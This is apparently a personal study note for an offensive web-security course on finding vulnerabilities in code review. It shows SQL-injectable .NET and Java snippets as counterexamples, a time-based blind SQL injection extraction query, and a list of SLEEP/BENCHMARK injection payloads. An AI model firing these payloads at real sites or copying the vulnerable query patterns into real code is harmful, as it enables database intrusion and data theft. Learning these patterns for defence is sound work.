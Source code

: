 # Discovering vulns
In AWAE there was a TON of code review and POC dev; much slower than the blind
pentest process; this can still be sped up though by keeping in mind common vulns.

Good link: https://github.com/OWASP/CheatSheetSeries.git

## DotNet do NOT
DO NOT: Concatenate strings anywhere in your code and execute them against your database (Known as dynamic sql).
```
string strQry = "SELECT * FROM Users WHERE UserName='" + txtUser.Text + "' AND Password='"
                + txtPassword.Text + "'";
EXEC strQry // SQL Injection vulnerability!
```

DO NOT: append user-controlled parameters to SQL queries
```
String query = "SELECT account_balance FROM user_data WHERE user_name = "
             + request.getParameter("customerName");
try {
    Statement statement = connection.createStatement( ... );
    ResultSet results = statement.executeQuery( query );
}
```
## Blind sql injection
Example: select * from table where id = 1 AND if((ascii(lower(substring((select user()),$i,1))))!=$s,1,benchmark(200000,md5(now())))

Possible parameters for $i
```
SLEEP(5)--
SELECT BENCHMARK(1000000,MD5('A'));
id=1 OR SLEEP(25)=0 LIMIT 1--
id=1) OR SLEEP(25)=0 LIMIT 1--
id=1' OR SLEEP(25)=0 LIMIT 1--
id=1') OR SLEEP(25)=0 LIMIT 1--
id=1)) OR SLEEP(25)=0 LIMIT 1--
id=SELECT SLEEP(25)--
```
